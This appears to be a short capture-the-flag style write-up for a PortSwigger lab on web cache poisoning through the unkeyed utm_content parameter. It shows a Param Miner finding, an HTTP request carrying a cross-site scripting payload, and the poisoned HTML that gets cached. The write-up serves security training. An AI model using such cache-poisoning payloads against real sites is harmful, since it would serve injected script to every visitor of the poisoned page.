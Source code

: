 # [Lab: Web cache poisoning via an unkeyed query parameter](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-unkeyed-param)

## Lab

This lab is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. A user regularly visits this site's home page using Chrome.

To solve the lab, poison the cache with a response that executes `alert(1)` in the victim's browser.

## Scan

param miner result:

```text
Web Cache Poisoning: Parameter Cloaking

Issue detail
The application can be manipulated into excluding the utm_content parameter from the cache key, by disguising it as utm_content.
```

## Solutions

cache poisoning:

```http
GET /?utm_content=hacked'><img+src%3d1+onerror%3d'alert()'>// HTTP/1.1
```

- cached:

  ```html
  <link rel="canonical" href='//id.web-security-academy.net/?utm_content=hacked'><img src=1 onerror='alert()'>//'/>
  ```
